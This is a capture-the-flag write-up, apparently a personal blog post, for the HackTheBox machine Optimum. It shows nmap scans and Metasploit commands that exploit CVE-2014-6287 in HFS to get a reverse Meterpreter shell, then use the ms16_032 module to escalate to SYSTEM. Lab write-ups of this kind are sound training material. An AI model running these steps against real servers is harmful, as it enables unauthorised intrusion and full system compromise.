 ```yaml
---
layout: post
title: HTB Optimum Walkthrough
categories: security
---
```


## Summary

It continues to be catchups time for me, as I write up retired HTB boxes that I did a while back. This time round, it's Optimum; an easy Windows box by `ch4p`.

## External Reconnaisance

### NMap Port Scan

As we always do with HTB boxes, we will begin with some NMap reconnaisance. We first conduct a scan against the top 1000 ports, with scripts enabled:

`sudo nmap -v -sC -sS -oN nmap-10-10-10-8-scripted.nmap 10.10.10.8`,

and follow that up with a non-script scan of all 65535 ports:

`nmap -v -p- -oN nmap-10-10-10-8-full.nmap 10.10.10.8`

We find the following ports are open:

| port      | state | service          |
| --------- | ----- | ---------------- |
|  80/tcp   | open  |       http       |

The script scan grabs the banner info from the server, which isn't too enlightening:

```
PORT   STATE SERVICE
80/tcp open  http
|_http-title: HFS /
```

### Web Reconnaisance

When we navigate to `http://10.10.10.8/`, we see that it is running an HTTPFileServer instance. The name alone sounds juicy (LFI/file upload options?)

[<img src="{{ site.baseurl }}/images/security/optimum/hfs.png" alt="HTTPFileServer" style="width: 400px;"/>]({{ site.baseurl }}/images/security/optimum/hfs.png)

When we look online for CVEs, we find [CVE-2014-6287](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2014-6287). This exploits a flaw in the RegEx conducting filtering of macros in the search function, which makes it stop parsing at a NULL byte (`%00`), allowing us to insert code *after* the NULL, which will then be executed. The vulnerability has a Metasploit module exploiting it. Looks like a good option for us.

## Exploitation

So, we open up Metasploit, and choose the HFS exploit

`use exploit/windows/http/rejetto_hfs_exec`,

set the target host:

`set rhosts 10.10.10.8`

and set the listener to listen on our HTB VPN interface:

`set lhost tun0`

Running the exploit gives us a Meterpreter shell; hooray!

[<img src="{{ site.baseurl }}/images/security/optimum/metasploit.png" alt="Meterpreter shell" style="width: 400px;"/>]({{ site.baseurl }}/images/security/optimum/metasploit.png)

From here we can immediately grab `user.txt`. But we're in as a low-privilege user right now, so we'll need to privesc in order to get `root.txt`

## Privilege Escalation

Our current user is `OPTIMUM\kostas`. We do a quick bit of enumeration via `sysinfo`, which shows that we are on Windows Server 2012 R2 64-bit.

Since it's 64-bit, our first step is to migrate into a 64-bits process:

- Find the PID of a 64-bit process that is unlikely to die any time soon (`explorer.exe` is often a good choice) using `ps`
- `migrate <PID>`

Next, we'll see if there are any privesc modules built in to Metasploit that might help us here. 

- Background the meterpreter session: `bg`
- Search for local windows exploits: `search exploit/windows/local`
- Find one which is well-rated and looks like it would apply to Server 2012 R2. `ms16-032` is a good shout.

Let's run our exploit (if you chose a different one, then replace `ms16_032_secondary_logon_handle_privesc` with the appropriate module name):

- Select the exploit: `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
- Set the listener to the tunnel interface: `set lhost tun0`
- Set the exploit to run on the meterpreter session: `set session 1`

Running the exploit gets us `SYSTEM`. W00t!

## Conclusion

This was a nice easy box. The initial foothold was a good example of why good input sanitisation is so important. And the privilege escalation is a nice little exercise in Metasploit footwork.

Hope you enjoyed! 

